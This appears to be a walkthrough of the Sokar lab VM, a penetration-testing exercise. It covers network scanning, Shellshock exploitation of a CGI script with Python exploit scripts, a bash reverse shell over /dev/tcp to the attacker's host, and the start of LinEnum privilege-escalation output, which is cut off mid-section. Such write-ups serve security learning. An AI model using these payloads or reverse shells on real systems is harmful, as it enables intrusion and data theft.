

#### Sokar

- [Attacker Info](#attacker-info)
- [Identify Victim](#identify-victim)
- [Nmap Scan](#nmap-scan)
- [Masscan](#masscan)
- [Web Enumeration](#web-enumeration)
- [Shellshock](#shellshock)
- [Privilege Escalation](#privilege-escalation)
- [Reference](#reference)

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.28  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fea3:a109  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:a3:a1:09  txqueuelen 1000  (Ethernet)
        RX packets 51356  bytes 68802749 (65.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 54226  bytes 3578972 (3.4 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 28  bytes 1596 (1.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 28  bytes 1596 (1.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Identify Victim

```sh
root@kali:~# netdiscover
 Currently scanning: 192.168.84.0/16   |   Screen View: Unique Hosts

 11 Captured ARP Req/Rep packets, from 10 hosts.   Total size: 660
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.1     a0:63:91:f0:cc:4b      2     120  NETGEAR
 192.168.1.7     f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 192.168.1.31    f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 192.168.1.31    08:00:27:f2:40:db      1      60  PCS Systemtechnik GmbH
 192.168.1.4     b0:df:3a:de:59:08      1      60  Samsung Electronics Co.,Ltd
 192.168.1.8     d0:2b:20:dc:d7:f0      1      60  Apple, Inc.
 192.168.1.10    70:77:81:c0:6c:33      1      60  Hon Hai Precision Ind. Co.,Ltd.
 192.168.1.15    68:07:15:7a:ec:52      1      60  Intel Corporate
 192.168.1.19    80:3f:5d:21:dc:73      1      60  Winstars Technology Ltd
 192.168.1.6     bc:9f:ef:69:35:19      1      60  Apple, Inc.

root@kali:~#
```

###### Nmap Scan

```sh
root@kali:~/sokar# nmap -sV -sC -p- -T5 -n -oA sokar.nmap 192.168.1.31
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-06 13:31 EDT
Nmap scan report for 192.168.1.31
Host is up (0.0011s latency).
Not shown: 65534 filtered ports
PORT    STATE SERVICE VERSION
591/tcp open  http    Apache httpd 2.2.15 ((CentOS))
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.15 (CentOS)
|_http-title: System Stats
MAC Address: F4:0F:24:33:5E:D1 (Apple)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 663.65 seconds
root@kali:~/sokar#
```

```sh
root@kali:~/sokar# nmap -sV -sC -p 591 192.168.1.31
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-06 13:33 EDT
Nmap scan report for 192.168.1.31
Host is up (0.00047s latency).

PORT    STATE SERVICE VERSION
591/tcp open  http    Apache httpd 2.2.15 ((CentOS))
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.15 (CentOS)
|_http-title: System Stats
MAC Address: 08:00:27:F2:40:DB (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.13 seconds
root@kali:~/sokar#
```


###### Masscan

```sh
root@kali:~/sokar# masscan -p1-65535 --rate=10000 -oG sokar.mass 192.168.1.31

Starting masscan 1.0.3 (http://bit.ly/14GZzcT) at 2018-05-06 17:29:22 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
root@kali:~/sokar#
```

```sh
root@kali:~/sokar# cat sokar.mass
# Masscan 1.0.3 scan initiated Sun May  6 17:29:22 2018
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 192.168.1.31 ()	Ports: 591/open/tcp////
# Masscan done at Sun May  6 17:29:39 2018
root@kali:~/sokar#
```

###### Web Enumeration

```
http://192.168.1.31:591/
view-source:http://192.168.1.31:591/
http://192.168.1.31:591/cgi-bin/cat
```


###### Shellshock

```sh
root@kali:~/sokar# help
GNU bash, version 4.4.18(1)-release (x86_64-pc-linux-gnu)
These shell commands are defined internally.  Type `help' to see this list.
Type `help name' to find out more about the function `name'.
Use `info bash' to find out more about the shell in general.
Use `man -k' or `info' to find out more about commands not in this list.

A star (*) next to a name means that the command is disabled.

 job_spec [&]                                                                                          history [-c] [-d offset] [n] or history -anrw [filename] or history -ps arg [arg...]
 (( expression ))                                                                                      if COMMANDS; then COMMANDS; [ elif COMMANDS; then COMMANDS; ]... [ else COMMANDS; ] fi
 . filename [arguments]                                                                                jobs [-lnprs] [jobspec ...] or jobs -x command [args]
 :                                                                                                     kill [-s sigspec | -n signum | -sigspec] pid | jobspec ... or kill -l [sigspec]
 [ arg... ]                                                                                            let arg [arg ...]
 [[ expression ]]                                                                                      local [option] name[=value] ...
 alias [-p] [name[=value] ... ]                                                                        logout [n]
 bg [job_spec ...]                                                                                     mapfile [-d delim] [-n count] [-O origin] [-s count] [-t] [-u fd] [-C callback] [-c quantum] [arra>
 bind [-lpsvPSVX] [-m keymap] [-f filename] [-q name] [-u name] [-r keyseq] [-x keyseq:shell-command>  popd [-n] [+N | -N]
 break [n]                                                                                             printf [-v var] format [arguments]
 builtin [shell-builtin [arg ...]]                                                                     pushd [-n] [+N | -N | dir]
 caller [expr]                                                                                         pwd [-LP]
 case WORD in [PATTERN [| PATTERN]...) COMMANDS ;;]... esac                                            read [-ers] [-a array] [-d delim] [-i text] [-n nchars] [-N nchars] [-p prompt] [-t timeout] [-u f>
 cd [-L|[-P [-e]] [-@]] [dir]                                                                          readarray [-n count] [-O origin] [-s count] [-t] [-u fd] [-C callback] [-c quantum] [array]
 command [-pVv] command [arg ...]                                                                      readonly [-aAf] [name[=value] ...] or readonly -p
 compgen [-abcdefgjksuv] [-o option] [-A action] [-G globpat] [-W wordlist]  [-F function] [-C comma>  return [n]
 complete [-abcdefgjksuv] [-pr] [-DE] [-o option] [-A action] [-G globpat] [-W wordlist]  [-F functi>  select NAME [in WORDS ... ;] do COMMANDS; done
 compopt [-o|+o option] [-DE] [name ...]                                                               set [-abefhkmnptuvxBCHP] [-o option-name] [--] [arg ...]
 continue [n]                                                                                          shift [n]
 coproc [NAME] command [redirections]                                                                  shopt [-pqsu] [-o] [optname ...]
 declare [-aAfFgilnrtux] [-p] [name[=value] ...]                                                       source filename [arguments]
 dirs [-clpv] [+N] [-N]                                                                                suspend [-f]
 disown [-h] [-ar] [jobspec ... | pid ...]                                                             test [expr]
 echo [-neE] [arg ...]                                                                                 time [-p] pipeline
 enable [-a] [-dnps] [-f filename] [name ...]                                                          times
 eval [arg ...]                                                                                        trap [-lp] [[arg] signal_spec ...]
 exec [-cl] [-a name] [command [arguments ...]] [redirection ...]                                      true
 exit [n]                                                                                              type [-afptP] name [name ...]
 export [-fn] [name[=value] ...] or export -p                                                          typeset [-aAfFgilnrtux] [-p] name[=value] ...
 false                                                                                                 ulimit [-SHabcdefiklmnpqrstuvxPT] [limit]
 fc [-e ename] [-lnr] [first] [last] or fc -s [pat=rep] [command]                                      umask [-p] [-S] [mode]
 fg [job_spec]                                                                                         unalias [-a] name [name ...]
 for NAME [in WORDS ... ] ; do COMMANDS; done                                                          unset [-f] [-v] [-n] [name ...]
 for (( exp1; exp2; exp3 )); do COMMANDS; done                                                         until COMMANDS; do COMMANDS; done
 function name { COMMANDS ; } or name () { COMMANDS ; }                                                variables - Names and meanings of some shell variables
 getopts optstring name [arg]                                                                          wait [-n] [id ...]
 hash [-lr] [-p pathname] [-dt] [name ...]                                                             while COMMANDS; do COMMANDS; done
 help [-dms] [pattern ...]                                                                             { COMMANDS ; }
root@kali:~/sokar#
```

```
() { :; }; echo "Content-Type: text/html"; echo; echo "Vulnerable"
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
() { :; }; echo "Content-Type: text/html"; echo; export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; hostname
```





```sh
root@kali:~/sokar# echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
root@kali:~/sokar#
```


Firewall Blocking

```
() { :; }; echo "Content-Type: text/html"; echo; export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; nc 192.168.1.28 8090
```

```sh
root@kali:~/sokar# nc -nlvp 8090
listening on [any] 8090 ...
```


`shellshock.py`

```python
import requests

while True:
    cmd = input("> ")
    headers = {
            'User-Agent' : '() { :; }; echo "Content-Type: text/html"; echo; export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; %s' % (cmd)
    }
    print((requests.get('http://192.168.1.31:591/cgi-bin/cat', headers = headers, timeout=5).text).strip())
```

```sh
root@kali:~/sokar# python3 shellshock.py
> ls
cat
> id
uid=48(apache) gid=48(apache) groups=48(apache)
> pwd
/var/www/cgi-bin
Content-type: text/html

<pre>
Sun May 6 10:59:06 BST 2018
10:59:06 up 2:51, 0 users, load average: 0.00, 0.00, 0.00
<br />
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address               Foreign Address             State
tcp        0      0 :::591                      :::*                        LISTEN
tcp        0      0 ::ffff:192.168.1.31:591     ::ffff:192.168.1.28:52802   TIME_WAIT
udp        0      0 0.0.0.0:68                  0.0.0.0:*
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node Path
unix  3      [ ]         DGRAM                    8290   /dev/log
unix  2      [ ACC ]     STREAM     LISTENING     6958   @/com/ubuntu/upstart
unix  2      [ ]         DGRAM                    7101   @/org/kernel/udev/udevd
unix  2      [ ]         DGRAM                    8455
unix  3      [ ]         DGRAM                    7117
unix  3      [ ]         DGRAM                    7116

Linux 2.6.32-504.1.3.el6.x86_64 (sokar) 	05/06/2018 	_x86_64_	(1 CPU)

avg-cpu:  %user   %nice %system %iowait  %steal   %idle
           0.02    0.00    0.06    0.02    0.00   99.90

Device:            tps   Blk_read/s   Blk_wrtn/s   Blk_read   Blk_wrtn
sda               0.41         6.52         3.61      66682      36968
sdb               0.03         0.26         0.00       2700          0

</pre>
> exit

> Traceback (most recent call last):
  File "shellshock.py", line 4, in <module>
    cmd = input("> ")
EOFError
root@kali:~/sokar#
```

`shellshock-exp.py`

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# from IPython.core.debugger import Tracer; breakpoint = Tracer()

import requests
import time
from base64 import b64encode
from random import randrange
import threading

class AllTheReads(object):
    def __init__(self, interval=1):
        self.interval = interval
        thread = threading.Thread(target=self.run, args=())
        thread.daemon = True
        thread.start()

    def run(self):
        readoutput = """/bin/cat %s""" % (stdout)
        clearoutput = """echo '' > %s""" % (stdout)
        while True:
            output = RunCmd(readoutput)
            if output:
                RunCmd(clearoutput)
                print(output)
            time.sleep(self.interval)

def RunCmd(cmd):
    cmd = cmd.encode('utf-8')
    cmd = b64encode(cmd).decode('utf-8')
    headers = \
        {'User-Agent': '() { :; }; echo "Content-Type: text/html"; echo; export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; echo "%s" | base64 -d | sh' \
         % cmd}
    result = (requests.get('http://192.168.1.31:591/cgi-bin/cat',
                          headers=headers, timeout=2).text).strip()
    return result


def WriteCmd(cmd):
    cmd = cmd.encode('utf-8')
    cmd = b64encode(cmd).decode('utf-8')
    headers = \
        {'User-Agent': '() { :; }; echo "Content-Type: text/html"; echo; export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; echo "%s" | base64 -d > %s' \
         % (cmd, stdin)}
    result = (requests.get('http://192.168.1.31:591/cgi-bin/cat',
                          headers=headers, timeout=2).text).strip()
    return result


def ReadCmd():
    GetOutput = """/bin/cat %s""" % (stdout)
    output = RunCmd(GetOutput)
    return output


def SetupShell():
    NamedPipes = """mkfifo %s;tail -f %s | /bin/sh 2>&1 >%s""" \
        % (stdin, stdin, stdout)
    try:
        RunCmd(NamedPipes)
    except:
        None
    return None


global stdin, stdout
session = randrange(1000, 9999)
stdin = "/dev/shm/input.%s" % (session)
stdout = "/dev/shm/output.%s" % (session)

SetupShell()

# Infinite loop to read STDOUT File
ReadingTheThings = AllTheReads()

while True:
    cmd = input("> ")
    WriteCmd(cmd + "\n")
    time.sleep(1.1)
```

```sh
root@kali:~/sokar# python3 shellshock-exp.py
> ls
cat
> pwd
/var/www/cgi-bin
> cd ..
> pwd
/var/www
> python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.1$
> Traceback (most recent call last):
  File "shellshock-exp.py", line 77, in <module>
    cmd = input("> ")
EOFError
root@kali:~/sokar#
```

```sh
root@kali:~/sokar# python3 shellshock-exp.py
> id
uid=48(apache) gid=48(apache) groups=48(apache)
> cd /etc/sysconfig
> ls | grep iptables
iptables
iptables-config
iptables.old
> ls -la | grep tables
-rw-------.  1 root root  481 Nov 12  2014 ip6tables
-rw-------.  1 root root 1988 Feb 22  2013 ip6tables-config
-rw-------.  1 root root  481 Nov 12  2014 ip6tables.old
-rw-------   1 root root  813 Jan  2  2015 iptables
-rw-------.  1 root root 1974 Feb 22  2013 iptables-config
-rw-------.  1 root root  476 Nov 12  2014 iptables.old
> ls -la | grep iptables
-rw-------   1 root root  813 Jan  2  2015 iptables
-rw-------.  1 root root 1974 Feb 22  2013 iptables-config
-rw-------.  1 root root  476 Nov 12  2014 iptables.old
> ifconfig
eth0      Link encap:Ethernet  HWaddr 08:00:27:F2:40:DB
          inet addr:192.168.1.31  Bcast:192.168.1.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fef2:40db/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:288732 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2764 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:18575011 (17.7 MiB)  TX bytes:303279 (296.1 KiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:0 (0.0 b)  TX bytes:0 (0.0 b)
> bash -i >& /dev/tcp/fe80::20c:29ff:fea3:a109%eth0/80 0>&1
>
```

```sh
root@kali:~/sokar# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.28  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fea3:a109  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:a3:a1:09  txqueuelen 1000  (Ethernet)
        RX packets 140282  bytes 164230559 (156.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 279999  bytes 18660642 (17.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 523  bytes 80979 (79.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 523  bytes 80979 (79.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/sokar# ncat -6 -lvnp 80
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Connection from fe80::a00:27ff:fef2:40db.
Ncat: Connection from fe80::a00:27ff:fef2:40db:36890.
bash: no job control in this shell
bash-4.1$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-4.1$
```


```sh
root@kali:~/sokar# nmap -6 -p 22 fe80::a00:27ff:fef2:40db%eth0
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-06 17:29 EDT
Nmap scan report for fe80::a00:27ff:fef2:40db
Host is up (0.0015s latency).

PORT   STATE  SERVICE
22/tcp closed ssh
MAC Address: 08:00:27:F2:40:DB (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
root@kali:~/sokar#
```

###### Privilege Escalation

```sh
root@kali:~/sokar# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2018-05-06 17:38:04--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.0.133, 151.101.64.133, 151.101.128.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.0.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 42150 (41K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                         100%[================================================================================================================>]  41.16K  --.-KB/s    in 0.02s

2018-05-06 17:38:05 (2.21 MB/s) - ‘LinEnum.sh’ saved [42150/42150]

root@kali:~/sokar#
root@kali:~/sokar# base64 LinEnum.sh > LinEnum.sh.b64
root@kali:~/sokar# less LinEnum.sh.b64
root@kali:~/sokar#
```

```sh
root@kali:~/sokar# python3 shellshock-exp.py
> bash -i >& /dev/tcp/fe80::20c:29ff:fea3:a109%eth0/80 0>&1
>
```

```sh
root@kali:~/sokar# ncat -6 -lvnp 80
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Connection from fe80::a00:27ff:fef2:40db.
Ncat: Connection from fe80::a00:27ff:fef2:40db:36891.
bash: no job control in this shell
bash-4.1$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.1$ ^Z
[1]+  Stopped                 ncat -6 -lvnp 80
root@kali:~/sokar# echo $TERM
xterm-256color
root@kali:~/sokar# stty -a
speed 38400 baud; rows 50; columns 101; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>;
start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O;
min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel
iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho
-extproc
root@kali:~/sokar# stty raw -echo
root@kali:~/sokar# ncat -6 -lvnp 80
                                   reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

bash-4.1$ export SHELL=bash
bash-4.1$ stty rows 50 columns 101
bash-4.1$ cd /dev/shm/
bash-4.1$ ls
input.1903  input.4270	input.6208  input.6842	input.8841   output.3297  output.6209  output.8841
input.2256  input.4493	input.6209  input.6849	input.9380   output.4159  output.6266  output.9569
input.3297  input.4896	input.6266  input.7252	input.9569   output.4896  output.6553
input.3715  input.5102	input.6553  input.7963	linenum.sh   output.5102  output.6842
input.4159  input.5721	input.6706  input.8387	output.1903  output.6208  output.8387
bash-4.1$ vi linenum.sh.b64
bash-4.1$ base64 -d linenum.sh.b64 > linenum.sh
bash-4.1$ chmod +x linenum.sh
bash-4.1$ bash linenum.sh

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
#

[-] Debug Info
[+] Thorough tests = Disabled (SUID/GUID checks will not be perfomed!)


Scan started at:
Sun May  6 14:02:25 BST 2018


### SYSTEM ##############################################
[-] Kernel information:
Linux sokar 2.6.32-504.1.3.el6.x86_64 #1 SMP Tue Nov 11 17:57:25 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux


[-] Kernel information (continued):
Linux version 2.6.32-504.1.3.el6.x86_64 (mockbuild@c6b9.bsys.dev.centos.org) (gcc version 4.4.7 20120313 (Red Hat 4.4.7-11) (GCC) ) #1 SMP Tue Nov 11 17:57:25 UTC 2014


[-] Specific release information:
CentOS release 6.4 (Final)
CentOS release 6.4 (Final)
CentOS release 6.4 (Final)


[-] Hostname:
sokar


### USER/GROUP ##########################################
[-] Current user/group info:
uid=48(apache) gid=48(apache) groups=48(apache)


[-] Users that have previously logged onto the system:
Username         Port     From             Latest
root             tty1                      Tue Jan 27 19:23:14 +0000 2015
bynarr           tty1                      Wed Dec 31 00:29:03 +0000 2014
apophis          tty1                      Fri Jan  2 20:11:28 +0000 2015


[-] Who else is logged on:
 14:02:25 up  5:54,  0 users,  load average: 1.00, 0.62, 0.26
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT


[-] Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(bin) gid=1(bin) groups=1(bin),2(daemon),3(sys)
uid=2(daemon) gid=2(daemon) groups=2(daemon),1(bin),4(adm),7(lp)
uid=3(adm) gid=4(adm) groups=4(adm),3(sys)
uid=4(lp) gid=7(lp) groups=7(lp)
uid=5(sync) gid=0(root) groups=0(root)
uid=6(shutdown) gid=0(root) groups=0(root)
uid=7(halt) gid=0(root) groups=0(root)
uid=8(mail) gid=12(mail) groups=12(mail)
uid=10(uucp) gid=14(uucp) groups=14(uucp)
uid=11(operator) gid=0(root) groups=0(root)
uid=12(games) gid=100(users) groups=100(users)
uid=13(gopher) gid=30(gopher) groups=30(gopher)
uid=14(ftp) gid=50(ftp) groups=50(ftp)
uid=99(nobody) gid=99(nobody) groups=99(nobody)
uid=69(vcsa) gid=69(vcsa) groups=69(vcsa)
uid=499(saslauth) gid=76(saslauth) groups=76(saslauth)
uid=89(postfix) gid=89(postfix) groups=89(postfix),12(mail)
uid=74(sshd) gid=74(sshd) groups=74(sshd)
uid=500(bynarr) gid=501(bynarr) groups=501(bynarr),500(forensic)
uid=48(apache) gid=48(apache) groups=48(apache)
uid=501(apophis) gid=502(apophis) groups=502(apophis)


[-] It looks like we have some admin users:
uid=2(daemon) gid=2(daemon) groups=2(daemon),1(bin),4(adm),7(lp)
uid=3(adm) gid=4(adm) groups=4(adm),3(sys)


[-] Contents of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
saslauth:x:499:76:"Saslauthd user":/var/empty/saslauth:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
bynarr:x:500:501::/home/bynarr:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
apophis:x:501:502::/home/apophis:/bin/bash


[-] Super user account(s):
root


[-] Are permissions on /home directories lax:
total 16K
drwxr-xr-x.  4 root    root    4.0K Dec 30  2014 .
dr-xr-xr-x. 22 root    root    4.0K May  6 08:07 ..
drwx------   2 apophis apophis 4.0K Jan  2  2015 apophis
drwxrwxrwx.  2 bynarr  bynarr  4.0K Jan 27  2015 bynarr


### ENVIRONMENTAL #######################################
[-] Environment information:
SHELL=bash
HTTP_HOST=192.168.1.31:591
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PWD=/dev/shm
SHLVL=5
_=/usr/bin/env


[-] SELinux seems to be present:
SELinux status:                 disabled


[-] Path information:
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin


[-] Available shells:
/bin/sh
/bin/bash
/sbin/nologin
/bin/dash


[-] Current umask value:
0022
u=rwx,g=rx,o=rx


[-] umask value as specified in /etc/login.defs:
UMASK           077


[-] Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
[-] Cron jobs:
-rw-r--r--. 1 root root    0 Jul 19  2011 /etc/cron.deny
-rw-r--r--. 1 root root  457 Sep 27  2011 /etc/crontab

/etc/cron.d:
total 20
drwxr-xr-x.  2 root root 4096 Nov 12  2014 .
drwxr-xr-x. 61 root root 4096 May  6 08:07 ..
-rw-r--r--.  1 root root  113 Jul 19  2011 0hourly
-rw-r--r--.  1 root root  108 Dec  6  2012 raid-check
-rw-------.  1 root root  235 Oct 16  2014 sysstat

/etc/cron.daily:
total 12
drwxr-xr-x.  2 root root 4096 Sep 27  2011 .
drwxr-xr-x. 61 root root 4096 May  6 08:07 ..
-rwxr-xr-x.  1 root root  196 Aug 15  2012 logrotate

/etc/cron.hourly:
total 12
drwxr-xr-x.  2 root root 4096 Sep 27  2011 .
drwxr-xr-x. 61 root root 4096 May  6 08:07 ..
-rwxr-xr-x.  1 root root  424 Jul 19  2011 0anacron

/etc/cron.monthly:
total 8
drwxr-xr-x.  2 root root 4096 Sep 27  2011 .
drwxr-xr-x. 61 root root 4096 May  6 08:07 ..

/etc/cron.weekly:
total 8
drwxr-xr-x.  2 root root 4096 Sep 27  2011 .
drwxr-xr-x. 61 root root 4096 May  6 08:07 ..


[-] Crontab contents:
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
HOME=/

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed


[-] Anacron jobs and associated file permissions:
-rw-r--r--. 1 root root 541 Jul 19  2011 /etc/anacrontab
# /etc/anacrontab: configuration file for anacron

# See anacron(8) and anacrontab(5) for details.

SHELL=/bin/sh
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
# the maximal random delay added to the base delay of the jobs
RANDOM_DELAY=45
# the jobs will be started during the following hours only
START_HOURS_RANGE=3-22

#period in days   delay in minutes   job-identifier   command
1	5	cron.daily		nice run-parts /etc/cron.daily
7	25	cron.weekly		nice run-parts /etc/cron.weekly
@monthly 45	cron.monthly		nice run-parts /etc/cron.monthly


[-] When were jobs last executed (/var/spool/anacron contents):
total 20
drwxr-xr-x. 2 root root 4096 Nov 12  2014 .
drwxr-xr-x. 8 root root 4096 Nov 12  2014 ..
-rw-------. 1 root root    9 May  6 09:25 cron.daily
-rw-------. 1 root root    9 May  6 10:05 cron.monthly
-rw-------. 1 root root    9 May  6 09:45 cron.weekly


### NETWORKING  ##########################################
[-] Network and IP info:
eth0      Link encap:Ethernet  HWaddr 08:00:27:F2:40:DB
